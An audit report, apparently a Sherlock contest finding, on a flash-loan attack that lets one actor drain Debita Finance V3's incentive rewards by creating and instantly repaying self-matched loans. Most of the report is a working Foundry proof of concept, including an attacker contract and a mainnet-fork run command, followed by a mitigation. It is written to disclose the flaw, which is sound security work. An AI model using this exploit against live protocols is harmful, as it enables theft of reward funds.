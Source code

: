 Brisk Cobalt Skunk

High

# Incentives can be stolen by using flash loans to borrow huge amounts dominating the rewards pool

### Summary

`DebitaIncentives` presents a mechanism to motivate users to engage in Debita's ecosystem and/or specific pairs available. It's designed to fairly distribute rewards proportionally to the amount of principle from transactions the user was involved in with respect to the total principle flow per epoch. A malicious user would attempt to exploit this mechanism for financial gain by attempting to borrow funds and repay them instantly. This is limited by the market conditions and lender's unwillingness to be involved in scenarios where gained interest is limited. However, anyone can call `matchOffersV3()` so this is not a constraint. More importantly, debt can be repaid instantly, meaning that the attacker does not need to have huge capital and can utilize flash loans to dominate rewards calculations.

### Root Cause

Anyone can call `matchOffersV3()` with any orders - assuming they are complementary. At the same time, incentives are distributed **only** based on the amount borrowed/lent and a loan can be repaid instantly, rendering incentives mechanism useless for rewarding honest engagement. 

### Internal pre-conditions

- an incentive has accumulated for a specific pair in a given epoch, either for borrow or loan it doesn't matter
- the rewards $ value is larger than the borrow fee paid, considering the minimum fee is only 0.2% ( 0.17% as the connector fee goes back to them ) this condition is very likely to be met ( specific examples provided later on )

### External pre-conditions

--

### Attack Path

A malicious user uses a custom smart contract to create sufficiently large borrow and lend orders that match each other to dominate the incentive distribution using a flash loan to fund the operation - the debt repayment can be instant. 

The duration of the loan is 5 seconds to ensure minimum borrow fees AND avoid interest for `minimalDurationPayment` (although paying interest would just be a complication in calculations nothing more):
https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Loan.sol#L730-L734

They call `matchOffersV3()` with their offers and instantly repay themselves to repay the flash loan provider in one tx. 

After the epoch ends they claim incentives dominating the rewards pool based on this calculation:
https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaIncentives.sol#L200-L201

### Impact

All funds from `DebitaIncentives` can be stolen by creating fake engagements using flash loans. 


### PoC

The test was created alongside the entire test file (except from a modified version of the `setUp()` function provided by the team). The most important part is the `AttackerContract` performing the flash loan transaction. Flash loans themselves are simplified to transfer funds to the attacker and back to avoid unnecessary complexity. 

<details>
<summary>PoC</summary>

pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {veNFTAerodrome} from "@contracts/Non-Fungible-Receipts/veNFTS/Aerodrome/Receipt-veNFT.sol";
import {veNFTVault} from "@contracts/Non-Fungible-Receipts/veNFTS/Aerodrome/veNFTAerodrome.sol";
import {DBOFactory} from "@contracts/DebitaBorrowOffer-Factory.sol";
import {DBOImplementation} from "@contracts/DebitaBorrowOffer-Implementation.sol";
import {DLOFactory} from "@contracts/DebitaLendOfferFactory.sol";
import {DLOImplementation} from "@contracts/DebitaLendOffer-Implementation.sol";
import {DebitaV3Aggregator} from "@contracts/DebitaV3Aggregator.sol";
import {Ownerships} from "@contracts/DebitaLoanOwnerships.sol";
import {auctionFactoryDebita} from "@contracts/auctions/AuctionFactory.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {DynamicData} from "../../../interfaces/getDynamicData.sol";
// import ERC20
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import {DebitaV3Loan} from "@contracts/DebitaV3Loan.sol";
import {DebitaIncentives} from "@contracts/DebitaIncentives.sol";
import {DebitaV3Loan} from "@contracts/DebitaV3Loan.sol";
import {DebitaChainlink} from "@contracts/oracles/DebitaChainlink.sol";
import {DebitaPyth} from "@contracts/oracles/DebitaPyth.sol";

contract FlashLoanStealingIncentives is Test {
    veNFTAerodrome public receiptContract;
    DBOFactory public DBOFactoryContract;
    DLOFactory public DLOFactoryContract;
    Ownerships public ownershipsContract;
    DebitaIncentives public incentivesContract;
    DebitaV3Aggregator public DebitaV3AggregatorContract;
    auctionFactoryDebita public auctionFactoryDebitaContract;
    DynamicData public allDynamicData;
    DebitaV3Loan public DebitaV3LoanContract;
    DebitaV3Loan public DebitaV3LoanContractFake;
    ERC20Mock public AEROContract;
    ERC20Mock public USDCContract;
    ERC20Mock public wETHContract;
    DLOImplementation public LendOrder;
    DLOImplementation public SecondLendOrder;
    DLOImplementation public ThirdLendOrder;

    address DebitaChainlinkOracle;
    address DebitaPythOracle;

    DBOImplementation public BorrowOrder;
    
    
    address maliciousUser;
    AttackerContract attackerContract;

    address AERO = 0x940181a94A35A4569E4529A3CDfB74e38FD98631;
    address USDC = 0x833589fCD6eDb6E08f4c7C32D4f71b54bdA02913;
    address wETH = 0x4200000000000000000000000000000000000006;
    address AEROFEED = 0x4EC5970fC728C5f65ba413992CD5fF6FD70fcfF0;
    address USDCFEED = 0x7e860098F58bBFC8648a4311b374B1D669a2bc6B;
    address WETHFEED = 0x71041dddad3595F9CEd3DcCFBe3D1F4b0a16Bb70;
    address borrower = address(0x02);
    address lender = address(0x03);
    address firstLender = address(this);
    address buyer = 0x5C235931376b21341fA00d8A606e498e1059eCc0;

    address feeAddress = address(this);

    uint receiptID;

    function setUp() public {
        allDynamicData = new DynamicData();
        ownershipsContract = new Ownerships();
        incentivesContract = new DebitaIncentives();
        DBOImplementation borrowOrderImplementation = new DBOImplementation();
        DBOFactoryContract = new DBOFactory(address(borrowOrderImplementation));
        DLOImplementation proxyImplementation = new DLOImplementation();
        DLOFactoryContract = new DLOFactory(address(proxyImplementation));
        auctionFactoryDebitaContract = new auctionFactoryDebita();
        AEROContract = ERC20Mock(AERO);
        USDCContract = ERC20Mock(USDC);
        wETHContract = ERC20Mock(wETH);

        DebitaV3Loan loanInstance = new DebitaV3Loan();
        DebitaV3AggregatorContract = new DebitaV3Aggregator(
            address(DLOFactoryContract),
            address(DBOFactoryContract),
            address(incentivesContract),
            address(ownershipsContract),
            address(auctionFactoryDebitaContract),
            address(loanInstance)
        );

        ownershipsContract.setDebitaContract(
            address(DebitaV3AggregatorContract)
        );
        auctionFactoryDebitaContract.setAggregator(
            address(DebitaV3AggregatorContract)
        );
        DLOFactoryContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );
        DBOFactoryContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );

        incentivesContract.setAggregatorContract(
            address(DebitaV3AggregatorContract)
        );
        DebitaV3AggregatorContract.setValidNFTCollateral(
            address(receiptContract),
            true
        );
          // Attacker's address
        maliciousUser = makeAddr("maliciousUser");
        // Contract executing the flashloan tx
        attackerContract = new AttackerContract(address(DBOFactoryContract), address(DLOFactoryContract), address(DebitaV3AggregatorContract), address(incentivesContract), maliciousUser);

    }


    // The exploit 
    function test_FlashLoanIncentiveExploit() public {
      
        // Incentivize borrow orders with $2,000 worth of USDC on epoch nr.2 
        _incentivizeBorrow();
        // Reach epoch 2
        vm.warp(block.timestamp + 14 days);
        // This simulates a flash loan, borrow and lend order creation and repayment, and then flash loan repayment
        _flashMatchOffersAndRepay();
        // Fake real engagement of $150,000 worth of loans made in total - to match example from the submission
        _fakeOtherUsers();
        // Finish epoch 2
        vm.warp(block.timestamp + 14 days);
        // Attacker claims intenctives - make sure the net profit is $600 ( 80% * 2000 - 1000 = 1600 - 1000 = 600 )
        vm.prank(maliciousUser);
        attackerContract.claimInventivesAndSendToUser();
        assertEq(USDCContract.balanceOf(maliciousUser), 1600e6);
    }


    function _flashMatchOffersAndRepay() internal {
        // Fund the flash loan provider - we ensure that initial balance is equal to the end balance
        address flashLoanProvider = makeAddr("flash");
        uint flashLoanAmount = 1200000e6; // 600,000 * 2, because it's needed for borrow AND lend orders - collateral and principle
        deal(USDC, flashLoanProvider, flashLoanAmount);
        uint initialBalance = USDCContract.balanceOf(flashLoanProvider);
        // Perform the flash floan
        address attackerContractAddr = address(attackerContract);
        vm.prank(flashLoanProvider);
        USDCContract.transfer(attackerContractAddr, flashLoanAmount);
        // To succeed attacker's contract needs to have the funds to pay borrower fee ( this cost will be later covered with the rewards ) 
        uint borrowerFee = flashLoanAmount * 17/ 20000; // 600,000 * 0.17% = 1020 USDC
        deal(USDC, maliciousUser, borrowerFee);
        vm.prank(maliciousUser);
        USDCContract.transfer(attackerContractAddr, borrowerFee);
        // Perform the flash floan tx
        vm.prank(maliciousUser);
        bool fundsReturned = attackerContract.flashLoanTx(flashLoanProvider, flashLoanAmount);
        assertEq(fundsReturned, true);
        

        // Ensure flashLoanProvider received all funds back 
        uint endBalance = USDCContract.balanceOf(flashLoanProvider);
        assertEq(initialBalance, endBalance);
    }

    function _fakeOtherUsers() internal {
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
        uint[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);
        bool[] memory oraclesActivatedLenders = allDynamicData
            .getDynamicBoolArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesCollateral = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        address oraclePrinciple;
        address oracleCollateral;

        ltvs[0] = 0;
        ratio[0] = 1e6;
        acceptedPrinciples[0] = USDC;
        acceptedCollaterals[0] = USDC;
        oraclesActivated[0] = false;
        oraclesPrinciples[0] = address(0);
        oraclesCollateral[0] = address(0);
        oraclePrinciple = address(0);
        oracleCollateral = address(0);

        deal(USDC, borrower, 150000e6);
        
        vm.startPrank(borrower);
        
        USDCContract.approve(address(DBOFactoryContract), 150000e6);

        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            1400,
            864000,
            acceptedPrinciples,
            USDC,
            false,
            0,
            oraclesPrinciples,
            ratio,
            oracleCollateral,
            150000e6
        );
        vm.stopPrank();

        deal(USDC, lender, 150000e6);
        vm.startPrank(lender);
        USDCContract.approve(address(DLOFactoryContract), 150000e6);
        
        address lenderOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            9640000,
            86400,
            acceptedCollaterals,
            USDC,
            oraclesCollateral,
            ratio,
            oraclePrinciple,
            150000e6
        );
        vm.stopPrank();

        BorrowOrder = DBOImplementation(borrowOrderAddress);
        LendOrder = DLOImplementation(lenderOrderAddress);

        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            1
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);

        lendOrders[0] = address(LendOrder);
        lendAmountPerOrder[0] = 150000e6;
        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = USDC;
        indexForPrinciple_BorrowOrder[0] = 0;
        indexForCollateral_LendOrder[0] = 0;
        indexPrinciple_LendOrder[0] = 0;

            address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(BorrowOrder),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        DebitaV3LoanContractFake = DebitaV3Loan(loan);
    }   

    function _incentivizeBorrow() internal {
        address[] memory principles = new address[](1);
        address[] memory collateral = new address[](1);
        address[] memory incentiveToken = new address[](1);

        bool[] memory isLend = new bool[](1);
        uint[] memory amount = new uint[](1);
        uint[] memory epochs = new uint[](1);

        principles[0] = USDC;
        collateral[0] = USDC;
        incentiveToken[0] = USDC;
        isLend[0] = false;
        amount[0] = 2000e6; // $2,000
        epochs[0] = 2;
        incentivesContract.whitelListCollateral(USDC, USDC, true);
        address incentivizer = makeAddr("abc");
        deal(USDC, incentivizer, 2000e6);
        vm.startPrank(incentivizer);
        IERC20(USDC).approve(address(incentivesContract), 2000e6);
        incentivesContract.incentivizePair(
            principles,
            incentiveToken,
            isLend,
            amount,
            epochs
        );
        vm.stopPrank();
    }

}

contract AttackerContract {
    ERC20Mock public USDCContract;
    DBOFactory public DBOFactoryContract;
    DLOFactory public DLOFactoryContract;
    DebitaV3Loan public DebitaV3LoanContract;
    DebitaV3Aggregator public DebitaV3AggregatorContract;
    DebitaIncentives public IncentivesContract;

    address attacker;

      address USDC = 0x833589fCD6eDb6E08f4c7C32D4f71b54bdA02913;

      constructor(address _dboFactoryAddress, address _dloFactoryAddress, address _aggregator, address _incentives, address _attacker) {
        USDCContract = ERC20Mock(USDC);
        DBOFactoryContract = DBOFactory(_dboFactoryAddress);
        DLOFactoryContract = DLOFactory(_dloFactoryAddress);
        DebitaV3AggregatorContract = DebitaV3Aggregator(_aggregator);
        IncentivesContract = DebitaIncentives(_incentives);
        attacker = _attacker;
      }

    function _createBorrowAndLendOrderCalls() internal returns(address, address) {
        USDCContract.approve(address(DBOFactoryContract), 600000e6);
        bool[] memory oraclesActivated = new bool[](1);
        uint[] memory ltvs = new uint[](1);
        address[] memory acceptedPrinciples = new address[](1);
        address[] memory oraclesPrinciples = new address[](1);
        address[] memory oraclesCollateral = new address[](1);
        uint[] memory ratio = new uint[](1);
         address oracleCollateral = address(0);

        oraclesActivated[0] = false;
        ltvs[0] = 0;
        acceptedPrinciples[0] = USDC;
        oraclesPrinciples[0] = address(0);
        oraclesCollateral[0] = address(0);
        ratio[0] = 1e6;
        USDCContract.approve(address(DBOFactoryContract), 600000e6);
        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            1400,
            5, // 5 seconds to avoid interest
            acceptedPrinciples,
            USDC,
            false,
            0,
            oraclesPrinciples,
            ratio,
            oracleCollateral,
            600000e6
        );

         USDCContract.approve(address(DLOFactoryContract), 600000e6);
         address oraclePrinciple = address(0);

          address lendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            true,
            ltvs,
            1400,
            84600,
            5,
            acceptedPrinciples, // same as accepted collateral for simplicity
            USDC,
            oraclesCollateral,
            ratio,
            oraclePrinciple,
            600000e6
        );
        return (borrowOrderAddress, lendOrderAddress);
    }

    function _matchOffers(address _borrowOrder, address _lendOrder) internal returns(address){
        address[] memory lendOrders = new address[](1);
        uint[] memory lendAmountPerOrder = new uint[](1);
        uint[] memory porcentageOfRatioPerLendOrder = new uint[](1);
        address[] memory principles = new address[](1);
        uint[] memory indexForPrinciple_BorrowOrder = new uint[](1);
        uint[] memory indexForCollateral_LendOrder  = new uint[](1);
        uint[] memory indexPrinciple_LendOrder = new uint[](1);

        lendOrders[0] = _lendOrder;
        lendAmountPerOrder[0] = 600000e6;
        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = USDC;
        indexForPrinciple_BorrowOrder[0] = 0;
        indexForCollateral_LendOrder[0] = 0;
        indexPrinciple_LendOrder[0] = 0;

        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            _borrowOrder,
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );
        DebitaV3LoanContract = DebitaV3Loan(loan);

        return loan;
    }
    
    function _payDebt(address _loan) internal {
        uint[] memory indexes = new uint[](1);
        indexes[0] = 0;

        USDCContract.approve(_loan, 600000e6);
        DebitaV3LoanContract.payDebt(indexes);
    }

    function _claimDebt() internal {
        uint index = 0;        
        DebitaV3LoanContract.claimDebt(index);
    }

    function _claimCollateral() internal {
          uint[] memory indexes = new uint[](1);
        indexes[0] = 0;

        DebitaV3LoanContract.claimCollateralAsBorrower(indexes);

    }

    function flashLoanTx(address flashLoanProvider, uint flashLoanAmount) public returns(bool){
        // Ensure the contract can pay for the borrow fee
        require((USDCContract.balanceOf(address(this)) - flashLoanAmount )== flashLoanAmount * 17 / 20000, "not enough funds to cover borrow fee"); 
        // Create borrow and lend orders
        (address borrowOrder, address lendOrder) = _createBorrowAndLendOrderCalls();
        // Match the orders
        address loan = _matchOffers(borrowOrder, lendOrder);
        // Pay off the debt
        _payDebt(loan);
        _claimDebt();
        _claimCollateral();
        require(USDCContract.balanceOf(address(this)) == flashLoanAmount);

        USDCContract.transfer(flashLoanProvider, flashLoanAmount);
        bool fundsReturned = USDCContract.balanceOf(flashLoanProvider)  == flashLoanAmount;
        return fundsReturned;
    }

    function claimInventivesAndSendToUser() public {
        require(msg.sender == attacker, "not for you");
        address[] memory tokenUsed = new address[](1);
        address[] memory principles = new address[](1);
        tokenUsed[0] = USDC;
        principles[0] = USDC;

        address[][] memory tokensIncentives = new address[][](tokenUsed.length);

        tokensIncentives[0] = tokenUsed;

        uint balanceBefore = USDCContract.balanceOf(address(this));
        IncentivesContract.claimIncentives(principles, tokensIncentives, 2);
        uint balanceAfter = USDCContract.balanceOf(address(this));
        require((balanceAfter - balanceBefore ) == 1600e6, "something wrong");
        USDCContract.transfer(msg.sender, 1600e6);
    }
}
</details>

To run the PoC create a new test file and paste in the code from the dropdown above. Run the test with:
```shell
forge test --fork-url https://mainnet.base.org --fork-block-number 21151256  --mt test_FlashLoanIncentiveExploit --mc FlashLoanStealingIncentives
```
Detailed and descriptive comments are added for all essential steps.

Scenario from the PoC explained in text:  
Let's assume there is $2000 worth of borrow incentives and the attacker wishes to spend a maximum $1000 on the borrow fee to grab 80% of the incentive pool - a net profit of $600. $1000 borrow fee is equivalent to a loan for almost $600,000 ( `1000 / (0.2% - connectorFee)` ). For this to be 80% of the total rewards, the total borrow amount for a given epoch had to be ($600,000/0.8 - $600,000 = $150,000) - which is reasonable, especially at the beginning where there are lots of incentives and the protocol is gaining traction. Note that the actual `flashLoanAmount` needs to be $1,200,000 because they need to create a borrow and lend order for $600,000 worth of collateral and principal respectively.

### Mitigation

The easiest way to significantly decrease the likelihood of this exploit is to make it impossible to create a loan and repay the debt in one transaction. This will make this attack very unlikely considering the required capital. 